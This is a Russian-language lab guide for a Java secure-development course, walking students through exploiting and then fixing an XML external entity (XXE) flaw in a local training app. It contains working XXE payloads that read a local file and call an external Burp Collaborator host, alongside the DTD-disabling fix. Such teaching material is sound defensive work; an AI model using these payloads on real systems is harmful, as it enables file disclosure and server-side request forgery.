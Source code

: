 # Лабораторный практикум "Безопасная разработка ПО: Прикладной курс Java"

## Содержание
1. [Настройка окружения](#environment)
2. [Обработка XML](#xxe)

## <a name="environment"></a>Настройка окружения
### Настройка Burp Suite и Firefox
1. Установить Firefox (<https://www.mozilla.org/ru/firefox/>)
2. Скачать Burp Suite Community Edition JAR file
(<https://portswigger.net/burp/communitydownload>)
3. Запустить Burp Suite
 (<https://support.portswigger.net/customer/portal/articles/1783038-Installing_Launching%20Burp.html>)
4. Сконфигурировать Firefox для работы с Burp
(<https://support.portswigger.net/customer/portal/articles/1783055-Installing_Configuring%20your%20Browser.html>)
5. Уберите _localhost_ и _127.0.0.1_ из списка адресов, на которые браузер
заходит без прокси

### Настройка IntelliJ IDEA
1. Скачать и установить IntelliJ IDEA Community Edition
(https://www.jetbrains.com/idea/download/)
2. Открыть в IntelliJ IDEA папку с проектом training_java_security_deep_dive

## <a name="xxe"></a>Задание №1. Обработка XML
### Описание
Одной из наиболее распространенных атак на приложения, обрабатывающие XML,
является внедрение внешних XML сущностей (XML eXternal Entity - XXE).
Эта атака возникает при обработке плохо сконфигурированными парсерами
XML-документов, содержащих ссылки на внешние сущности.
### Подробное руководство
#### Часть 1. Подготовка
1. Откройте проект _lab-01-xxe_
2. Запустите проект. Зайдите на http://localhost:8091/
3. Посмотрите пример счёта (bill_example.xml). _Какую структуру счёта ожидает
приложение?_
4. Загрузите счёт в приложение через форму (http://localhost:8091/bill).
_Как происходит обработка счёта?_
5. Запустите Unit-тесты. Проанализируйте результаты их выполнения.

#### Часть 2. Внедрение внешних сущностей XML
1. _Что такое DTD (Document Type Defenition)?
Как можно определить DTD внутри XML-документа?_
2. Определите XML-сущность в документе счёта. Загрузите сформированный
счёт в приложение. _Что произошло?_
```xml
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe "XXE Vulnerability Test"> ]>
<bill>
    <product id="28">
        <name>&xxe;</name>
        <quantity>1</quantity>
        <price>1337</price>
    </product>
</bill>
```
3. _Что такое внещние XML-сущности (eXternal XML Entities)?_
4. Создайте файл C:\\TEMP\\secret.txt. Определите внешнюю XML-сущность в
документе так, чтобы можно было прочитать этот файл. Загрузите сформированный
счёт в приложение. _Что произошло?_
```xml
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE product [ <!ELEMENT product ANY >
    <!ENTITY xxe SYSTEM "file:////C:\\TEMP\\secret.txt"> ]>
<bill>
    <product id="28">
      <name>&xxe;</name>
      <quantity>77</quantity>
      <price>31337</price>
    </product>
</bill>
```
5. _Какие возможности это открывает перед атакующим?_

#### Часть 3. Предотвращение уязвимостей XXE
1. Откройте _BillPrintingController_. Найдите участок кода, отвечающий за
обработку счетов. _Как происходит обработка XML в приложении?_
2. Отключите поддержку DTD (и, соответсвенно, поддержку внешних сущностей).
```Java
DocumentBuilderFactory dbfactory = DocumentBuilderFactory.newInstance();
dbfactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```
3. Загрузите в приложение счёт с XXE. _Что произошло?_
4. Запустите Unit-тесты. Проанализируйте результаты их выполнения. Проверьте,
что счета без внешних сущностей обрабатываются корректно.

### Дополнительные задания
#### Часть 4. Расширенная эксплуатация XXE
1. Верните поддержку DTD в приложении.
2. Определите внешнюю сущность так, чтобы можно было обратиться к внутреннему
серверу.  _Что произошло?_
```XML
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE product [ <!ELEMENT product ANY >
    <!ENTITY xxe SYSTEM "http://gyiv38a8htdpb0m9zfr7w95tkkqaez.burpcollaborator.net"> ]>
<bill>
    <product id="28">
      <name>&xxe;</name>
      <quantity>77</quantity>
      <price>31337</price>
    </product>
</bill>
```
3. _Какие возможности это открывает перед атакующим?_
